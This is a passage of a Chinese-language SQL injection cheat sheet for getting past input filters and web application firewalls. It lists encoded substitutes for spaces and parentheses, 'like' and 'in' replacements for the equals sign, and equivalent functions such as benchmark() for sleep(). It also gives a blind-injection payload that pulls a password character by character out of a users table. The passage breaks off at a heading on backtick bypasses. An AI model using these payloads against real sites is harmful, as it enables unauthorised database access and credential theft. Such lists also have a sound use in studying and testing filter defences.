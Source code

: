 ```mysql
空白：
%u0020 %uff00
%c0%20 %c0%a0 %e0%80%a0
左括号(:
%u0028 %uff08
%c0%28 %c0%a8
%e0%80%a8
右括号):
%u0029 %uff09
%c0%29 %c0%a9
%e0%80%a9
```

### like绕过

```mysql
?id=1' or 1 like 1#
可以绕过对 = > 等过滤
```

### in绕过

```mysql
or '1' IN ('1234')#
可以替代=
```

### 等价函数或变量

```auto
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1 and ascii(lower(mid((select pwd from users limit 1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```

### 反引号绕过
